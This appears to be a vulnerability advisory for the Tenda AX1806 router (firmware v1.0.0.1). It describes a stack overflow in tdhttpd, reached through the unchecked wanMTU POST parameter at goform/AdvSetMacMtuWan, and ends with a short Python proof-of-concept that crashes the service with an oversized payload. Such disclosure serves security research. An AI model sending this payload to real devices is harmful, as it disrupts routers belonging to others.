 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has a stack overflow vulnerability. The vulnerability occurrs in the fromAdvSetMacMtuWan function, which can be accessed via the URL `goform/AdvSetMacMtuWan`.

The vulnerability is located in the function sub_658D8 called by fromAdvSetMacMtuWan.

- <img src="./image/1.png" alt="1.png" style="zoom:50%;" />

After getting the POST parameter `wanMTU`, the function does not verify its length and copies it directly to local variables on the stack, resulting in stack overflow.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"wanMTU": b'A'*0x800,
}
res = requests.post("http://127.0.0.1/goform/AdvSetMacMtuWan", data=data)
print(res.content)
```

